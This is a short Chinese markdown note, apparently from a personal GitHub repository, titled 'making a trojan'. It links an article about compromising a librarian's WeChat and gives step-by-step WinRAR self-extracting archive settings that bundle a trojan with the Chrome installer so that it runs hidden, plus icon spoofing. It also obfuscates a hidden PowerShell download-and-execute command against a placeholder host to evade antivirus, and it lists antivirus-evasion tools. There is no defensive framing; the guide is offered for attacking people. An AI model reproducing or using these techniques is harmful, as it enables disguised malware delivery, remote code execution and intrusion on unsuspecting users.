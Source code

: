 # 制作木马
## vs2019修改exe图标 
[记一次拿图书馆小姐姐微信的全过程](https://mp.weixin.qq.com/s/LB_UrYMYYY7M3Ryhv8quFw)

## 打包木马和Chrome打包
1.选中Chrome安装包和 木马.exe
2.右击添加到winrar
3.General - ✔️Create SFX archive
4.Advanced - SFX options
4.1 General - C:\Users\Public
4.2 Setup - Run after extraction: C:\Users\Public\yiye1010.exe
4.3 Setup - Run before extraction: C:\Users\Public\ChromeSetup.exe
4.4 Modes - Hide all
4.5 Update - Extract and update files
5. Restorator修改图标
```bash
WinRAR a -sfx -iicond:\app.ico setup.exe

winrar a -v360 1 -sfx  # 360k分卷
WinRAR a -sfxWinCon.SFX Gift.rar
```

## Invoke-Obfuscation 制作 powershell免杀
```bash
# https://github.com/danielbohannon/Invoke-Obfuscation
Import-Module .\Invoke-Obfuscation.psd1;Invoke-Obfuscation
Invoke-Obfuscation
set scriptblock 'powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x:80/b'))"'
token\all\1
# encoding <enter> 1 <enter> ascii混淆
# encoding\1
out PowerShellCodeASCII.ps1
```

# 免杀工具
1.Themida
2.掩日免杀